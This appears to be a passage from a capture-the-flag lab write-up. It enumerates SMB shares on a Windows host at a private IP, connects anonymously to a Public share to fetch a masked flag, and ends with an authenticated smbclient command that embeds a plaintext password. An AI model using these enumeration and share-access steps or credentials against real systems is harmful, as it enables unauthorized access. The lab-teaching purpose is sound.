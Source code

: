 **Output**:
```
[+] IP: 192.168.148.101:445    Name: WIN-TIP7RVRBJ8E
    Disk                            Permissions     Comment
    ----                            -----------     -------
    ADMIN$                          READ, WRITE     Remote Admin
    Backup                          READ, WRITE     
    C$                              READ, WRITE     Default share
    Data                            READ ONLY
    Finance                         NO ACCESS
    IPC$                            READ ONLY       Remote IPC
    IT                              READ, WRITE
    Public                          READ, WRITE
```

### FLAG 7: Public Share Discovery

**Location**: Public SMB share  
**Difficulty**: Easy

```bash
# Connect to Public share anonymously
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.148.101/Public -N
```

**Session**:
```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep  5 10:15:23 2025
  ..                                  D        0  Thu Sep  5 10:15:23 2025
  flag.txt                            A       22  Thu Sep  5 10:15:23 2025
  passwords.txt                       A       45  Thu Sep  5 10:15:23 2025
  normal.txt                          A       21  Thu Sep  5 10:15:23 2025

smb: \> get flag.txt
getting file \flag.txt of size 22 as flag.txt (10.7 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~]
└─$ cat flag.txt
FLAG{D************5}
```

**🎯 FLAG 7 FOUND**: FLAG{D**********5} - In Public share

### FLAG 8: Backup Share Exploration

**Location**: Backup SMB share  
**Difficulty**: Medium

```bash
# Connect with credentials
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.148.101/Backup -U overclock%Administrator2025!
```
